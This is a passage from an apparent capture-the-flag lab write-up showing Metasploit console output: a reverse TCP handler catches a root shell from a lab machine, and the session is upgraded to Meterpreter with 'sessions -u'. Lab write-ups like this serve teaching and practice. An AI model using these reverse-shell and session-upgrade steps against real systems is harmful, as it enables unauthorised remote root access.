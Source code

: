     
    Exploit target:
    
       Id  Name
       --  ----
       0   Wildcard Target
    
    
    msf exploit(multi/handler) > run
    
    [*] Started reverse TCP handler on 10.10.14.14:9002 
    [*] Sending stage (38 bytes) to 10.10.10.94
    [*] Command shell session 1 opened (10.10.14.14:9002 -> 10.10.10.94:44602) at 2018-07-27 06:33:58 -0400
    
    /bin/sh: 0: can't access tty; job control turned off
    # 
    

For some reason, the first command run in this new shell can be garbage and
fail. After making sure to get that out of the way, I’ll background the
session (ctrl-z):

    
    
    # id
    /bin/sh: 1: j^H��j!Xu�j: not found
    /bin/sh: 1: X�H�/bin/shSH��RWH��id: not found
    # id
    uid=0(root) gid=0(root) groups=0(root)
    # ^Z
    Background session 1? [y/N]  y
    msf exploit(multi/handler) >
    

Metasploit has a built in upgrade path to Meterpretere using `sessions -u`:

    
    
    msf exploit(multi/handler) > sessions -u 1
    [*] Executing 'post/multi/manage/shell_to_meterpreter' on session(s): [1]
    
    [*] Upgrading session ID: 1
    [*] Starting exploit/multi/handler
    [*] Started reverse TCP handler on 10.10.14.14:4433 
    [*] Sending stage (861480 bytes) to 10.10.10.94
    [*] Meterpreter session 2 opened (10.10.14.14:4433 -> 10.10.10.94:58956) at 2018-07-27 06:37:15 -0400
    [*] Command stager progress: 100.00% (773/773 bytes)
    msf exploit(multi/handler) > sessions -i 2
    [*] Starting interaction with 2...
    
    meterpreter >
    
